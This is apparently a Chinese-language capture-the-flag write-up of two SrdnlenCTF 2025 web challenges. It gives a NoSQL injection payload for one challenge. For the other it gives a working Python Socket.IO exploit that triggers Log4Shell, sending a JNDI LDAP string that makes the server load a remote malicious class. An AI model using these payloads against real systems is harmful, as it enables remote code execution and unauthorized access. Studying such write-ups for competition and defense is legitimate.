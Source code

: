 # 2025-SrdnlenCTF

  
  
&lt;!--more--&gt;  
## SPEED  
在`/redeem`存在`nosql`注入，  
`payload: ?discountCode[$ne]=null`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501202156035.png)
并且存在并发，利用领取到金币，即可购买`flag`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501202158036.png)
购买`flag`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501202159695.png)
## sparklingsky  
利用`websocket`实现了一个小游戏  
```java  
from flask_socketio import emit  
from flask_login import current_user, login_required  
from threading import Lock  
from .models import *  
from anticheat import log_action, analyze_movement  
lock = Lock()  
  
def init_socket_events(socketio, players):  
    @socketio.on(&#39;connect&#39;)  
    @login_required  
    def handle_connect():  
        user_id = int(current_user.get_id())  
        log_action(user_id, &#34;is connecting&#34;)  
          
        if user_id in players.keys():  
            # Player already exists, send their current position  
            emit(&#39;connected&#39;, {&#39;user_id&#39;: user_id, &#39;x&#39;: players[user_id][&#39;x&#39;], &#39;y&#39;: players[user_id][&#39;y&#39;], &#39;angle&#39;: players[user_id][&#39;angle&#39;]})  
        else:  
            # TODO: Check if the lobby is full and add the player to the queue  
            log_action(user_id, f&#34;is spectating&#34;)  
        emit(&#39;update_bird_positions&#39;, players, broadcast=True)  
  
    @socketio.on(&#39;move_bird&#39;)  
    @login_required  
    def handle_bird_movement(data):  
        user_id = data.get(&#39;user_id&#39;)  
        log_action(user_id, &#34;is active&#34;)          
        if user_id in players:  
            del data[&#39;user_id&#39;]  
            if players[user_id] != data:  
                with lock:  
                    players[user_id] = {  
                        &#39;x&#39;: data[&#39;x&#39;],  
                        &#39;y&#39;: data[&#39;y&#39;],  
                        &#39;color&#39;: &#39;black&#39;,  
                        &#39;angle&#39;: data.get(&#39;angle&#39;, 0)  
                    }  
                    log_action(user_id, &#34;is success&#34;)  
                    if analyze_movement(user_id, data[&#39;x&#39;], data[&#39;y&#39;], data.get(&#39;angle&#39;, 0)):  
                        log_action(user_id, f&#34;was cheating with final position ({data[&#39;x&#39;]}, {data[&#39;y&#39;]}) and final angle: {data[&#39;angle&#39;]}&#34;)  
                        # del players[user_id] # Remove the player from the game - we are in beta so idc  
                    emit(&#39;update_bird_positions&#39;, players, broadcast=True)  
  
    @socketio.on(&#39;disconnect&#39;)  
    @login_required  
    def handle_disconnect(data):  
        user_id = current_user.get_id()  
        if user_id in players:  
            del players[user_id]  
        emit(&#39;update_bird_positions&#39;, players, broadcast=True)  
```  
在**超速**的情况下，会被日志记录  
`log_action(user_id, f&#34;was cheating with final position ({data[&#39;x&#39;]}, {data[&#39;y&#39;]}) and final angle: {data[&#39;angle&#39;]}&#34;)`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501202231582.png)
日志记录利用了存在漏洞的`log4j`，并且启动时还设置了`trustURLCodebase=true`  
直接打 JNDI 即可，  
**超速**要求  
```java  
user_states = {}  
  
# Anti-cheat thresholds  
MAX_SPEED = 1000  # Max units per second  
  
def analyze_movement(user_id, new_x, new_y, new_angle):  
  
    global user_states  
  
    # Initialize user state if not present  
    if user_id not in user_states:  
        user_states[user_id] = {  
            &#39;last_x&#39;: new_x,  
            &#39;last_y&#39;: new_y,  
            &#39;last_time&#39;: time.time(),  
            &#39;violations&#39;: 0,  
        }  
  
    user_state = user_states[user_id]  
    last_x = user_state[&#39;last_x&#39;]  
    last_y = user_state[&#39;last_y&#39;]  
    last_time = user_state[&#39;last_time&#39;]  
  
    # Calculate distance and time elapsed  
    distance = math.sqrt((new_x - last_x)**2 &#43; (new_y - last_y)**2)  
    time_elapsed = time.time() - last_time  
    speed = distance / time_elapsed if time_elapsed &gt; 0 else 0  
  
    # Check for speed violations  
    if speed &gt; MAX_SPEED:  
        return True  
  
    # Update the user state  
    user_states[user_id].update({  
        &#39;last_x&#39;: new_x,  
        &#39;last_y&#39;: new_y,  
        &#39;last_time&#39;: time.time(),  
    })  
  
    return False  
```  
利用此项目  
https://github.com/X1r0z/JNDIMap  
构造`exp`  
```java  
import socketio  
sio = socketio.Client()  
@sio.event  
def connect():  
    print(&#39;Connected to the server&#39;)  
  
@sio.event  
def connected(data):  
    print(&#39;Server says:&#39;, data)  
  
@sio.event  
def update_bird_positions(players):  
    print(&#39;Updated bird positions:&#39;, players)  
  
@sio.event  
def disconnect():  
    print(&#39;Disconnected from the server&#39;)  
  
# 发送消息到服务器  
def send_move_bird(user_id, x, y, angle):  
    sio.emit(&#39;move_bird&#39;, {&#39;user_id&#39;: user_id, &#39;x&#39;: x, &#39;y&#39;: y, &#39;angle&#39;: angle})  
1  
# 连接到服务器  
def main():  
    headers={  
        &#34;Cookie&#34;:&#34;session=.eJwlzjEOwzAIAMC_MHcAu4DJZyJsQO2aNFPVv7dS51vuDXsdeT5gex1X3mB_BmzgU31QDEnuhMZTiHWwpLHEmuxuPTTUWzjr7GKqrRFOk1LXVRkWrZeqFzahKYMckc1_xEiZLLxyWCtRJHbtVkiyEF1W3OEXuc48_hsi-HwB1JYvGQ.Z40fRA.RAjyNPzzmC-a4dPG6ww7MztPteU&#34;  
    }  
    sio.connect(&#39;http://sparklingsky.challs.srdnlen.it:8081/&#39;,headers=headers)    
    while True:  
        send_move_bird(user_id=1, x=0, y=0, angle=90)  
        send_move_bird(user_id=1, x=10000, y=100000000, angle=&#34;${jndi:ldap://ip:port/Basic/FromFile/Evil.class}&#34;)  
    sio.wait()  
if __name__ == &#34;__main__&#34;:  
    main()  
```  
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/2025-srdnlenctf/  

